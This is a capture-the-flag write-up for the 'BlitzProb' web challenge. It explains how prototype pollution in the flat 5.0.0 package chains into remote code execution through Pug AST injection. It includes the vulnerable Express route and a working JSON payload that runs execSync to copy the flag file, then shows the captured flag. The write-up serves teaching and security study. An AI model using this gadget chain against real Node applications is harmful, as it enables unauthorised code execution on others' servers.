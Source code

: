 ```yaml
---
title: BlitzProb
date: 2021-04-25 10:13:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains a _Prototype Pollution_ to RCE via _AST Injection_. You can read more about it in this great [blog](https://blog.p6.is/AST-Injection/) post. (\* ^ ω ^)

Upon visiting the entry point, we are greeted with a aesthetic, futuristic looking feedback form. We are provided with a list of songs from a famous alien band named __Blitz Prop__ and asked to choose our favorite.
![](/assets/img/blitzProb_web.png#center)

## Vulnerability
If we go through the source code, we can see in the file `routes/index.js` that the `unflatten` function is the only thing processing our input. It turns the JSON that is send to it back into an object. What if we could write or overwrite other items in Node's object space?

The vulnerable code of the challenge:

``` javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

After reviewing the `package.json` file we can see that "flat" “5.0.0” is installed, which suffers from a _Prototype Pollution_ vulnerability. [Here](https://github.com/hughsk/flat/issues/105) you can find the PoC. 

How do we exploit this? There are no _if_ branches to bypass in the code. The default object space only has functions to overwrite, but since we can only submit valid JSON, we cannot define our own functions.

**Note:** This is because function definitions are not valid JSON. You can overwrite a function with a payload such as `{ 'Object.__proto__.toString': '() => return "Foo"' }` but it will eventually break everything, as a critical _function_ has now been redefined as a _string_.

We can achieve RCE if we can find an `exec()` or `eval()` statement anywhere in our application. Maybe Pug?

The `pug.compile` function converts a _string_ into a template _function_ and passes the _object_ for reference. It is a method to check the use of pug template engine in a black-box environment using prototype pollution.

When we insert AST into the `Object.prototype.block`, the compiler adds it to the buffer by referring to the value... (be sure to read the previously mentioned blog for a detailed explanation)... AST generated by `pug-parser` is passed to the `pug-code-gen` and made into a function and finally, it will be executed.

## Exploitation
To exploit this vulnerability and read the flag, we simply open the web console and send the payload below to "/api/submit":

```javascript
let CMD = "process.mainModule.require('child_process').execSync('cat /app/flag* >> /app/static/flag.txt')"

fetch('/api/submit', {
	method: 'POST',
	body: JSON.stringify({
		'song.name': "Not Polluting with the boys",
		"__proto__.block": {
			"type": "Text", 
			"line": CMD
		}
	}),
	headers: {'Content-Type': 'application/json'}
})
```

The flag file has been written to the _static_ directory (the only place where we have write access). After visiting `static/flag.txt` we see the flag:

> CHTB{p0llute_with_styl3}

٩(◕‿◕｡)۶